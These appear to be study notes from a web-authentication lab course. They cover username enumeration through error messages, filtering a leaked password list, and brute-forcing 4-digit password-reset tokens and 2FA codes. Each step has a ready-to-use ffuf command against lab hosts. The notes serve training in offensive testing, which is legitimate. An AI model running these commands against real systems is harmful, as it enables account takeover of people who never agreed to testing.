 # Enumerating Users
## Enumerating Users via Differing Error Messages
When we attempt to log in to the lab with an invalid username such as abc, we can see the following error message: "Unknown user"
```
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```
## User Enumeration via Side-Channel Attacks
Side-channel attacks do not directly target the web application's response but rather extra information that can be obtained or inferred from the response. An example of a side channel is the response timing, i.e., the time it takes for the web application's response to reach us. Suppose a web application does database lookups only for valid usernames. In that case, we might be able to measure a difference in the response time and enumerate valid usernames this way, even if the response is the same. User enumeration based on response timing is covered in the Whitebox Attacks module.
# Brute-Forcing Passwords
contains at least one upper-case character
contains at least one lower-case character
contains at least one digit
minimum length of 10 characters
```
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
Upon providing an incorrect username, the login response contains the message (substring) "Invalid username", therefore, we can use this information to build our ffuf command to brute-force the user's password:
```
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```
# Brute-Forcing Password Reset Tokens
## Identifying Weak Reset Tokens
To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:
As we can see, the password reset link contains the reset token in the GET-parameter token. In this example, the token is 7351. Given that the token consists of only a 4-digit number, there can be only 10,000 possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.
## Attacking Weak Reset Tokens
We will use ffuf to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from 0000 to 9999, which we can achieve with seq:
```
seq -w 0 9999 > tokens.txt
```
Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist in ffuf to brute-force all active reset-tokens:
```
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```
By specifying the reset token in the GET-parameter token in the /reset_password.php endpoint, we can reset the password of the corresponding account, enabling us to take over the account:
# Brute-Forcing 2FA Codes
Attacking Two-Factor Authentication (2FA)
The message in the web application shows that the TOTP is a 4-digit code. Since there are only 10,000 possible variations, we can easily try all possible codes. To achieve this, let us first take a look at the corresponding request to prepare our parameters for ffuf
As we can see, the TOTP is passed in the otp POST parameter. Furthermore, we need to specify our session token in the PHPSESSID cookie to associate the TOTP with our authenticated session. Just like in the previous section, we can generate a wordlist containing all 4-digit numbers from 0000 to 9999 like so:
```
seq -w 0 9999 > tokens.txt
```
Afterward, we can use the following command to brute-force the correct TOTP by filtering out responses containing the Invalid 2FA Code error message:
```
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
```
ffuf -w ./tokens.txt -u http://94.237.48.253:34226/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=1ivq0t6b0jr3f562c2oeuf7mde" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
# Weak Brute-Force Protection
## Rate Limits
## CAPTCHAs
